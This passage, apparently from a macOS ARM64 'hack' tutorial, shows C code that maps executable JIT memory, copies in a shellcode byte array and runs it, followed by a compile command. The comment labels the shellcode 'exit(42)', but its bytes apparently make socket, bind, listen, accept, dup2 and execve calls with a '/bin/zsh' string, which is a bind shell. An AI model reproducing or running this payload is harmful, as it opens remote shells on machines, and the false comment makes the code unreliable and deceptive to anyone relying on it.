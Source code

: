 ```cpp
           PROT_READ | PROT_WRITE | PROT_EXEC,
           MAP_ANON | MAP_PRIVATE | MAP_JIT, -1, 0);

  if (mem == MAP_FAILED) {
    perror("mmap");
    return 1;
  }

  pthread_jit_write_protect_np(0);

  // shellcode: exit(42)
  unsigned char code[] =
  "\x23\x40\x80\xd2\x60\xfc\x48\xd3\x01\xfc\x41\xd3\xe2\x03\x1f\xaa"
  "\x30\x0c\x80\xd2\xe1\xff\x1f\xd4\x13\xfc\x40\xd3\x02\x02\x80\xd2"
  "\x04\x40\x80\xd2\x24\x82\xab\xf2\xe4\x7f\xbf\xa9\xe1\x63\x3f\x8b"
  "\x10\x0d\x80\xd2\xe1\xff\x1f\xd4\xe0\x03\x13\xaa\xe1\x03\x1f\xaa"
  "\x50\x0d\x80\xd2\xe1\xff\x1f\xd4\xe0\x03\x13\xaa\xe1\x03\x1f\xaa"
  "\xe2\x03\x1f\xaa\xd0\x03\x80\xd2\xe1\xff\x1f\xd4\x14\xfc\x40\xd3"
  "\x50\x0b\x80\xd2\x21\x40\x80\xd2\x21\xfc\x48\xd3\xe1\xff\x1f\xd4"
  "\xe0\x03\x14\xaa\x21\x20\x80\xd2\x21\xfc\x48\xd3\xe1\xff\x1f\xd4"
  "\xe0\x03\x14\xaa\x21\xfc\x41\xd3\xe1\xff\x1f\xd4\xe3\x45\x8c\xd2"
  "\x23\xcd\xad\xf2\xe3\x45\xcf\xf2\x63\x0e\xed\xf2\xe3\x7f\xbf\xa9"
  "\xe0\x63\x3f\x8b\xe0\x7f\xbf\xa9\xe1\x63\x3f\x8b\xe2\x03\x1f\xaa"
  "\x70\x07\x80\xd2\xe1\xff\x1f\xd4";

  memcpy(mem, code, sizeof(code));

  pthread_jit_write_protect_np(1);

  ((void(*)())mem)();

  return 0;
}
```

### demo 3

Compile it again:     

```bash
clang -o hack3 hack3.c
```
